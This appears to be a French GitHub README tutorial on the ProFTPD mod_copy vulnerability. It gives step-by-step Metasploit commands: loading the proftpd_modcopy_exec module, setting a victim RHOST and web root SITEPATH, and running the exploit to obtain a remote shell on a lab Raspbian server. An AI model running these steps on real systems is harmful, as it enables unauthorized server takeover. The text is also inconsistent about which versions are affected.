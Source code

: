 # hack_proftpd1.3.5
Piratage d'un serveur Linux en exploitant le serveur FTP (Proftpd)

La vulnérabilité dans le module mod_copy de Proftpd a été révélée il y a quelques mois. La plupart des serveurs utilisant Proftp sont toujours vulnérables aux attaques car ils utilisent des versions plus anciennes du logiciel. Si vous utilisez Proftpd version 1.3.5 ou antérieure, votre serveur est vulnérable et ce n'est qu'une question de temps avant que quelqu'un ne profite de cette vulnérabilité. J'ai donc pensé faire un repo sur la même chose, en montrant à quel point la situation est facile et terrifiante.

# Quel serveur est concerné par cette faille

Tout serveur Linux fonctionnant avec la version Proftp < 1.3.5 est vulnérable.

# Comment cela fonctionne-t-il ?

Mod_copy est un module pour le serveur Proftp, qui implémente les commandes "SITE CPFR" & "SITE CPTO", grâce auxquelles l'utilisateur peut se déplacer dans les fichiers ou les dossiers du serveur. C'est-à-dire que, normalement, si vous voulez copier un fichier d'un endroit du serveur à un autre en utilisant le FTP, vous devez le transférer au système local, puis le télécharger à l'emplacement cible dans le serveur. Mais, grâce à mod_copy, vous pouvez simplement le transférer sans avoir à le télécharger sur votre système local.

Il existe une vulnérabilité dans le logiciel qui permet à tout utilisateur "NON AUTHENTIFIÉ" d'utiliser les commandes ci-dessus pour copier les fichiers. C'est exact, n'importe quel utilisateur.

# Quel est l'impact, si quelqu'un l'exploite ?

En fait, ils pourraient avoir un shell dans votre serveur, ce qui est plus que suffisant pour faire des choses sérieuses.
En fait, je vais vous montrer comment vous pouvez exploiter cette vulnérabilité en utilisant metasploit.
Oui, c'est vrai ! Quelqu'un a écrit un exploit pour cette vulnérabilité et ça marche comme sur des roulettes

# Essayons ça !

Essayons d'exploiter cette vulnérabilité en utilisant métasploit et voyons si nous y parvenons.

# VEUILLEZ NOTER QUE CECI EST UNIQUEMENT À DES FINS ÉDUCATIVES, ESSAYEZ-LE SUR DES APPAREILS QUE VOUS AVEZ AUTORISÉS ET JE NE SERAI PAS RESPONSABLE DE VOS ACTIONS.

Je suppose que vous avez metasploit tout prêt pour l'action, sautons directement dans le vif du sujet. 

Voici ma mise en place : J'ai un serveur raspbian et Kali Linux (ma machine hôte) est l'attaquant.

# Étape 1 : Téléchargez l'exploit dans votre ordinateur.

Pour cela, ouvrez un terminal en tant que root et téléchargez l'exploit à partir d'[ICI](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/unix/ftp/proftpd_modcopy_exec.rb)

Copiez-le dans le dossier des exploits.

cp proftpd_modcopy_exec.rb /usr/share/metasploit-framework/modules/exploits/unix/ftp/

# Étape 2 : Ouvrez msfconsole.

Pour cela, ouvrez un Terminal ( comme root ) et tapez "msfconsole".

![screen msfconsole](https://zupimages.net/up/20/51/ini9.png)

# Étape 3 : Une fois que le métasploit est chargé, utilisez la commande suivante pour charger l'exploit

use exploit/unix/ftp/proftpd_modcopy_exec

Ensuite, nous devons définir l'hôte distant (serveur victime)

set RHOST 192.168.1.102

set SITEPATH /var/www/html

![screen msfconsole](https://zupimages.net/up/20/51/oq4i.png)

Vous pouvez toujours taper "show options" pour voir toutes les options que vous devez définir. Ici, RHOST est le serveur distant que nous essayons d'exploiter. Le "SITEPATH" est la racine du document pour le serveur web. Une fois que vous êtes prêt, tapez "exploit" et appuyez sur entrée. C'est tout.

Vous devriez maintenant avoir une session ouverte depuis le serveur distant où vous pouvez exécuter n'importe quelle commande.

